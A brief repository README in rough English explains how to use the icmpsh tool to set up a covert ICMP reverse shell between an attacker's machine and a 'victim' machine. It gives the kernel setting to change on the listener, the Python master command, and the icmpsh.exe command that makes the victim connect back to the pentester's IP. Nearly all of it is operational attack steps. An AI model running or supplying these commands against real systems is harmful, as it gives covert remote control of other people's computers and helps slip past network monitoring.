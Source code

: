 # ICMP-connection
Conection ICMP between 2 pc using python
It's necesary install ICMPSH of https://github.com/
inquisb/icmpsh
We've to know: The server it's own computer
You need modified “/proc/sys/net/ipv4/icmp echo ignore_all" and should include “1”
In your comuter you need to write 
>python icmpsh_m.py ip_pentester ip_victim
In the vicims's computer
>icmpsh.exe -t ip_pentester -d 500 -b 30 -s 128
